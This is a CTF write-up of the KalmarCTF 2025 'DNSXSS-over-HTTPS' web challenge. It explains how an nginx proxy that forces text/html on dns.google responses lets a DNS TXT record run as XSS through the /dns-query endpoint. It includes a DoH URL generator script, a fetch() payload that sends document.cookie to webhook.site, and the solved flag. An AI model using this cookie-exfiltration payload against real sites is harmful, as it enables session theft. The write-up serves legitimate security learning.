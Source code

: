 ```yaml
---
title: "DNSXSS-over-HTTPS"
description: "Do you like DNS-over-HTTPS? Well, I'm proxying `https://dns.google/`! Would be cool if you can find an XSS!\n\nReport to admin locally:\n`curl http://localhost:8008/report -H \"Content-Type: application/json\" -d '{\"url\":\"http://proxy/\"}'`\n\nReport to admin for the real flag:\n`curl https://dnxss.chal-kalmarc.tf/report -H \"Content-Type: application/json\" -d '{\"url\":\"http://proxy/\"}'`\n\n`https://dnxss.chal-kalmarc.tf/`" 
pubDate: 2025-03-11
ctf: "KalmarCTF 2025"
category: "web"
author: "sealldev"
section: "CTFs"
image: "images/25-kalmar/icon.png"
---
```


### Initial Look

We are given a `handout.zip` to start with that extracts to a basic nginx application with an admin bot. The flag is stored in a cookie of the admin bot:
```js
const express = require('express');
const puppeteer = require('puppeteer');
const app = express();

const FLAG = process.env.FLAG || 'kalmar{test_flag}';
const DOMAIN = process.env.DOMAIN || 'http://proxy/';

app.use(express.json());

function sleep(ms) {
    return new Promise(res => setTimeout(res, ms));
}

async function visitUrl(url) {
  const browser = await puppeteer.launch({
    headless: 'new',
    args: ['--no-sandbox', '--disable-setuid-sandbox']
  });

  try {
    const page = await browser.newPage();

    // Set flag cookie
    await page.setCookie({
      name: 'flag',
      value: FLAG,
      domain: new URL(DOMAIN).hostname,
    });

    await page.goto(url, {
      waitUntil: 'networkidle0',
    });
    await sleep(1000);

  } catch (err) {
    console.error('Error visiting page:', err);
  } finally {
    await browser.close();
  }
}

app.post('/report', async (req, res) => {
  const { url } = req.body;
  
  if (!url || typeof url !== 'string' || !url.startsWith(DOMAIN)) {
    return res.status(400).json({ error: `Invalid URL. Url should be a string and start with ${DOMAIN}` });
  }

  try {
    await visitUrl(url);
    res.json({ success: true });
  } catch (err) {
    res.status(500).json({ error: 'Failed to visit URL' });
  }
});

const PORT = process.env.PORT || 3000;
app.listen(PORT, () => {
  console.log(`Adminbot listening on port ${PORT}`);
});
```

Initial interests regarding the admin bot:
- Has `--no-sandbox`, is using `puppeteer`.
- The cookie is set before visiting the page.
- The bot will only visit URLs on the specified `DOMAIN`.

The nginx configuration has some points of interest as well:
```
events {
  worker_connections 1024;
}

http {
  server {
    listen 80;
        
    location / {
      proxy_pass https://dns.google;
      add_header Content-Type text/html always;
    }
    
    location /report {
      proxy_pass http://adminbot:3000;
    }
  }
}
```
- The `dns.google` proxy returns only `text/html` content types, so if we can find what would be XSS on the wrong content type, we have achieved XSS and can steal the cookies.

### The Hunt

Looking at the main page this is what is visible:
![dnsxss-proxy.png](images/25-kalmar/dnsxss-proxy.png)

It doesn't have a lot to offer, and the functionality is limited:
- `/cache` has the ability to flush cache
- `/query` queries domains

Doing a basic query for my personal domain (seall.dev), we get this as an example output:

![dnsxss-query.png](images/25-kalmar/dnsxss-query.png)

It is fairly bare-bones in terms of functionality and with proper filtering for XSS. We are revealed a new endpoint though: `/resolve`.

The screenshot contains the URL to `dns.google`: `https://dns.google/resolve?name=seall.dev&type=A`.

But, it's a proxy so we can use that endpoint on our proxy: `https://dnxss.chal-kalmarc.tf/resolve?name=seall.dev&type=A`!

![dnsxss-resolve.png](images/25-kalmar/dnsxss-resolve.png)

Now we are rendering JSON content as HTML! I try to add a record here to achieve XSS, but it won't work due to filtering...

I them do some research into DNS-over-HTTP as a protocol, and I find some [documentation](https://developers.google.com/speed/public-dns/docs/doh) on how it works! This nets me the endpoint `/dns-query`!

> Note: During the CTF I did not need to find the developer documentation (that is for people learning from the writeup for what to do), instead a teammate (Solopie) recommended [this challenge writeup](https://ctftime.org/writeup/36743) which mentions the `/dns-query` endpoint and reminded me of it.

### XSS

The response is still forced to `text/html`, maybe it is not filtered?

I start by making a record on my domain `xss.seall.dev`. A `TXT` record with the contents `<script>alert(1)</script>`.

Utilising a Python script, I generate a valid `/dns-query` URL.

```python
#!/usr/bin/env python3
import base64
import dns.message
import dns.rdatatype

def main():
    domain = "xss.seall.dev"
    dns_query_url = "https://dnxss.chal-kalmarc.tf/dns-query"
    
    query = dns.message.make_query(domain, dns.rdatatype.TXT)
    
    wire_query = query.to_wire()
    
    encoded_query = base64.b64encode(wire_query).decode('utf-8')
    
    headers = {
        "Accept": "application/dns-message",
        "Content-Type": "application/dns-message"
    }
    full_get_uri = f"{dns_query_url}?dns={encoded_query.replace('=','')}"
    print(full_get_uri)

if __name__ == "__main__":
    main()
```

I execute the script to get my URL:
```bash
$ python3 script.py
https://dnxss.chal-kalmarc.tf/dns-query?dns=F8ABAAABAAAAAAAAA3hzcwVzZWFsbANkZXYAABAAAQ
```

![dnsxss-alert.png](images/25-kalmar/dnsxss-alert.png)

Bingo!

### Stealing from the 🍪 jar

Now we can set up an exfiltration payload in a DNS record, using a free webhook.site we can send the cookies over (Base64 encoded):
```html
<script>fetch(`https://webhook.site/...?${btoa(document.cookie)}`)</script>
```

We can then use the script to generate our URL:
```bash
$ python3 script.py
https://dnxss.chal-kalmarc.tf/dns-query?dns=F8ABAAABAAAAAAAAA3hzcwVzZWFsbANkZXYAABAAAQ
```

Send the URL we generated to the admin bot:
```bash
$ curl https://dnxss.chal-kalmarc.tf/report -H "Content-Type: application/json" -d  '{"url":"http://proxy/dns-query?dns=..."}'
{"success":true}
```

We get a response on webhook.site after some delay:
```
https://webhook.site/...?ZmxhZz1rYWxtYXJ7dGhhdF9jb250ZW50X3R5cGVfaGVhZGVyX2lzX2RvaW5nX3NvbWVfaGVhdnlfbGlmdGluZyFfZGlkX3lvdV91c2VfZG5zLXF1ZXJ5X29yX3Jlc29sdmU/fQ==
```

We can then Base64 decode that string (CyberChef, Dcode.fr, `base64` util, whatever) to get the flag.
```
flag=kalmar{that_content_type_header_is_doing_some_heavy_lifting!_did_you_use_dns-query_or_resolve?}
```

Flag: `kalmar{that_content_type_header_is_doing_some_heavy_lifting!_did_you_use_dns-query_or_resolve?}`